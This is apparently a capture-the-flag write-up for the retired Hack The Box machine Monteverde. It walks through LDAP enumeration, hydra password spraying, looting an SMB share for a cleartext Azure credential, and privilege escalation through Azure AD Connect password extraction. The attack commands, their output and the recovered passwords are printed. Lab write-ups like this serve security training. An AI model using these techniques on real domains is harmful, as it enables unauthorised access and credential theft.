




# Monteverde
## 1- Overview

   
Retire: 13 June 2020   
Writeup release: 13 June 2020

### Summary

**2- [Enumeration](https://github.com/flast101/HTB-writeups/tree/mastSer/monteverde#2--enumeration)**   
2.1- [nmap scan](https://github.com/flast101/HTB-writeups/tree/master/monteverde#21--nmap-scan)   
2.2- [Active Directory Enumeration](https://github.com/flast101/HTB-writeups/tree/master/monteverde#22--active-directory-enumeration)   

**3- [Exploitation](https://github.com/flast101/HTB-writeups/tree/master/monteverde#3--exploitation)**   
3.1- [Bruteforcing Credentials](https://github.com/flast101/HTB-writeups/tree/master/monteverde#31--bruteforcing-credentials)   
3.2- [SMB Shares](https://github.com/flast101/HTB-writeups/tree/master/monteverde#32--smb-shares)     
3.3- [Identifying Another Account](https://github.com/flast101/HTB-writeups/tree/master/monteverde#33--identifying-another-account)   
3.4- [Getting user.txt](https://github.com/flast101/HTB-writeups/tree/master/monteverde#34--getting-usertxt)   

**4- [Privilege Escalation](https://github.com/flast101/HTB-writeups/tree/master/monteverde#4--privilege-escalation)**   
4.1- [Post-Compromise Enumeration](https://github.com/flast101/HTB-writeups/tree/master/monteverde#41--post-compromise-enumeration)   
4.2- [Post-Compromise Exploitation](https://github.com/flast101/HTB-writeups/tree/master/monteverde#42--post-compromise-exploitation)

## 2- Enumeration
### 2.1- nmap scan
First things first, we begin with a nmap scan:
~~~
root@kali:~# nmap --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.172

Nmap scan report for 10.10.10.172
Host is up, received user-set (0.045s latency).
Scanned at 2020-05-30 20:11:08 CEST for 1318s
Not shown: 65516 filtered ports
Reason: 65516 no-responses

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-05-30 17:31:50Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49778/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=5/30%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5ED2A6E2%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10B%TI=RD%II=I%TS=U)
SEQ(SP=106%GCD=1%ISR=10B%TI=I%II=I%SS=S%TS=U)
OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NNS%O6=M54DNNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -50m37s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 24865/tcp): CLEAN (Timeout)
|   Check 2 (port 2859/tcp): CLEAN (Timeout)
|   Check 3 (port 47166/udp): CLEAN (Timeout)
|   Check 4 (port 10279/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-05-30T17:39:52
|_  start_date: N/A

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   31.32 ms 10.10.14.1
2   31.42 ms 10.10.10.172

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 30 20:33:06 2020 -- 1 IP address (1 host up) scanned in 1318.40 seconds
~~~

The important services we found here are : DNS, RPC, SMB, Kerberos, and LDAP.
There is obviously an Active Directory.

### 2.2- Active Directory Enumeration
Let's begin with using `ldapsearch` to grab general information:
~~~
root@kali:~# ldapsearch -h 10.10.10.172 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts
#

#
dn:
namingcontexts: DC=MEGABANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=MEGABANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=MEGABANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=MEGABANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=MEGABANK,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
~~~

The box is **monteverde.megabank.local** and its domain name is **megabank.local**.     

Let's try to find informations about users.

~~~
root@kali:~# ldapsearch -h 10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL" '(objectClass=User)' sAMAccountName | grep sAMAccountName

# requesting: sAMAccountName
sAMAccountName: Guest
sAMAccountName: MONTEVERDE$
sAMAccountName: AAD_987d7f2f57d2
sAMAccountName: mhope
sAMAccountName: SABatchJobs
sAMAccountName: svc-ata
sAMAccountName: svc-bexec
sAMAccountName: svc-netapp
sAMAccountName: dgalanos
sAMAccountName: roleary
sAMAccountName: smorgan
~~~

## 3- Exploitation
### 3.1- Bruteforcing Credentials

We can try to bruteforce credentials using a list of users and `crackmapexec` or `hydra`.         
However, this is risky as our machine might get banned if the target has an Account Lockout Threshold set. We should first check the password policy:

~~~
root@kali:~# crackmapexec smb 10.10.10.172 --pass-pol

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] Dumping password info for domain: MEGABANK
SMB         10.10.10.172    445    MONTEVERDE       Minimum password length: 7
SMB         10.10.10.172    445    MONTEVERDE       Password history length: 24
SMB         10.10.10.172    445    MONTEVERDE       Maximum password age:
SMB         10.10.10.172    445    MONTEVERDE       
SMB         10.10.10.172    445    MONTEVERDE       Password Complexity Flags: 000000
SMB         10.10.10.172    445    MONTEVERDE       	Domain Refuse Password Change: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password Store Cleartext: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password Lockout Admins: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password No Clear Change: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password No Anon Change: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password Complex: 0
SMB         10.10.10.172    445    MONTEVERDE       
SMB         10.10.10.172    445    MONTEVERDE       Minimum password age:
SMB         10.10.10.172    445    MONTEVERDE       Reset Account Lockout Counter: 30 minutes
SMB         10.10.10.172    445    MONTEVERDE       Locked Account Duration: 30 minutes
SMB         10.10.10.172    445    MONTEVERDE       Account Lockout Threshold: None
SMB         10.10.10.172    445    MONTEVERDE       Forced Log off Time: Not Set
~~~

We can see the **"Account Lockout Threshold: None"**. So we can try to bruteforce the credentials without risk:
~~~
root@kali:~# hydra -L users.txt -P "/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100.txt" -e nsr -s 389 ldap2://10.10.10.172

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-01 07:56:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1030 login tries (l:10/p:103), ~65 tries per task
[DATA] attacking ldap2://10.10.10.172:389/
[389][ldap2] host: 10.10.10.172   login: MONTEVERDE$
[389][ldap2] host: 10.10.10.172   login: AAD_987d7f2f57d2
[389][ldap2] host: 10.10.10.172   login: mhope
[389][ldap2] host: 10.10.10.172   login: SABatchJobs
[389][ldap2] host: 10.10.10.172   login: SABatchJobs   password: SABatchJobs
[389][ldap2] host: 10.10.10.172   login: svc-ata
[389][ldap2] host: 10.10.10.172   login: svc-bexec
[389][ldap2] host: 10.10.10.172   login: svc-netapp
[389][ldap2] host: 10.10.10.172   login: dgalanos
[389][ldap2] host: 10.10.10.172   login: roleary
[389][ldap2] host: 10.10.10.172   login: smorgan
1 of 1 target successfully completed, 11 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-01 07:56:53
~~~
### 3.2- SMB Shares

We have valid credentials **"SABatchJobs:SABatchJobs"**. However, it doesn't work when we try to login using `Evil-WinRM`:
~~~
root@kali:~# evil-winrm -i 10.10.10.172 -u SABatchJobs -p SABatchJobs

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
~~~
Let's try to find shares with `smbclient`:
~~~
root@kali:~# smbclient -U SABatchJobs -L //10.10.10.172
Enter WORKGROUP\SABatchJobs's password:
Domain=[MEGABANK] OS=[] Server=[]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	azure_uploads   Disk      
	C$              Disk      Default share
	E$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
	users$          Disk    
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.172 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
~~~

Now, we can browse or download the shares content. Unless the size is really huge, I usually prefer to download the full content and then browse the shares locally:
~~~
root@kali:~# smbclient //10.10.10.172/users$ -U SABatchJobs

Enter WORKGROUP\SABatchJobs's password:
Domain=[MEGABANK] OS=[] Server=[]
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 14:12:48 2020
  ..                                  D        0  Fri Jan  3 14:12:48 2020
  dgalanos                            D        0  Fri Jan  3 14:12:30 2020
  mhope                               D        0  Fri Jan  3 14:41:18 2020
  roleary                             D        0  Fri Jan  3 14:10:30 2020
  smorgan                             D        0  Fri Jan  3 14:10:24 2020

		524031 blocks of size 4096. 519955 blocks available

smb: \> prompt off
smb: \> recurse on
smb: \> mget *
getting file \mhope\azure.xml of size 1212 as azure.xml (9,5 KiloBytes/sec) (average 9,5 KiloBytes/sec)
smb: \> exit
~~~

Looking at the files we have downloaded, it seems that a file named "azure.xml" can be interesting:
~~~
root@kali:~# cat mhope/azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
~~~
The line **N="Password">4n0therD4y@n0th3r$** might be helpfull.

### 3.3- Identifying Another Account
We found a new password and we want to be able to login in the target. We will use `crackmapexec` to find out wich user it is the password:
~~~
root@kali:~# crackmapexec smb 10.10.10.172 -u users.txt -p 4n0therD4y@n0th3r$
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\MONTEVERDE$:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
~~~
Our happy winner is **mhope** !

### 3.4- Getting user.txt
We have new credentials **mhope:4n0therD4y@n0th3r$**. What can we do with them ? Let's try to login with `Evil-WinRM`:     

## 4- Privilege Escalation

### 4.1- Post-Compromise Enumeration  

We must gather more information about our user **mhope**:
~~~
*Evil-WinRM* PS C:\Users\mhope\desktop> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ============================================
megabank\mhope S-1-5-21-391775091-850290835-3566037492-1601

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
~~~
Interesting to notice that mhope is member of the **"Azure Admins"** group and we found its credentials in the **"azure.xml"** file.

If we google the words “Azure Admins privesc”, we find several links. One of those was released by one of our famous active members [VbScrub](https://www.hackthebox.eu/home/users/profile/158833):    
_Azure AD Connect Database Exploit (Priv Esc)_: https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

This article also reveals this interesting Github repo:   
_Azure AD Connect password extraction_: https://github.com/fox-it/adconnectdump

### 4.2- Post-Compromise Exploitation
Let's try it.     
We download **AdDecrypt.exe** and **mcrypt.dll** on the target. As indicated, these two files must be placed in the directory where we will launch the exploit. Once done, we have:
~~~
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> Dir -Force C:\Users\mhope\Documents\

    Directory: C:\Users\mhope\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hsl         1/3/2020   5:24 AM                My Music
d--hsl         1/3/2020   5:24 AM                My Pictures
d--hsl         1/3/2020   5:24 AM                My Videos
d-----        5/31/2020  11:37 PM                WindowsPowerShell
-a----        5/31/2020  11:13 PM          10866 20200531231329_BloodHound.zip
-a----        5/31/2020  11:56 PM          14848 AdDecrypt.exe
-a-hs-         1/3/2020   5:24 AM            402 desktop.ini
-a----        5/31/2020  11:57 PM         334248 mcrypt.dll
-a----        5/31/2020  11:13 PM          15037 MmU4ODNmNTctYjM2MS00N2U1LWI5NjctNDg2N2E5YmZmZmEx.bin
-a----        5/31/2020  11:22 PM          59392 nc.exe
-a----        5/31/2020  11:37 PM          90794 powerzure.ps1
-a----        5/31/2020  11:13 PM         972875 sharphound.ps1
~~~
Notice that I first tried BloodHound, but unsuccessfully...  
 
And now, this is time for execution. We must execute the exploit in the directory **"C:\Program Files\Microsoft Azure AD Sync\Bin"**, and it works fine:

We finally have our Administrator credentials **"administrator:d0m@in4dminyeah!"**. We just have to login as **Administrator** and it is done:

